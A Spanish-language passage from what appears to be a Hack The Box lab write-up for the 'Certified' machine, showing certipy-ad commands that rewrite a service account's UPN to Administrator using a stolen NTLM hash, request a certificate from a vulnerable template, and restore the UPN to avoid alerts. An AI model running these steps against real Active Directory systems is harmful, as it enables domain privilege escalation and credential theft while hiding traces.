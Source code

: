 La cuenta `CA_OPERATOR` se actualiza para que el User Principal Name (UPN) sea `Administrator`. Esto permite que cualquier certificado emitido para `CA_OPERATOR` sea reconocido como si perteneciera a `Administrator`.

```terminal
/home/kali/Documents/htb/machines/certified:-$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

![](assets/img/htb-writeup-certified/certified4_1.png)

Se solicita un certificado utilizando la plantilla vulnerable `CertifiedAuthentication`. El certificado emitido contiene el UPN de `Administrator`, lo que permite su uso para autenticación con privilegios elevados.

```terminal
/home/kali/Documents/htb/machines/certified:-$ sudo certipy-ad req -username ca_operator@certified.htb -p 12345678 -ca certified-DC01-CA -template CertifiedAuthentication -debug
```

![](assets/img/htb-writeup-certified/certified4_2.png)

El UPN de `CA_OPERATOR` se restaura a su valor original para revertir cualquier modificación que pueda generar alertas o inconsistencias en el entorno.

```terminal
/home/kali/Documents/htb/machines/certified:-$ certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
```

![](assets/img/htb-writeup-certified/certified4_3.png)

A continuación, utilizo el certificado emitido para autenticarme y verificar que obtengo el hash NTLM del usuario `Administrator`.
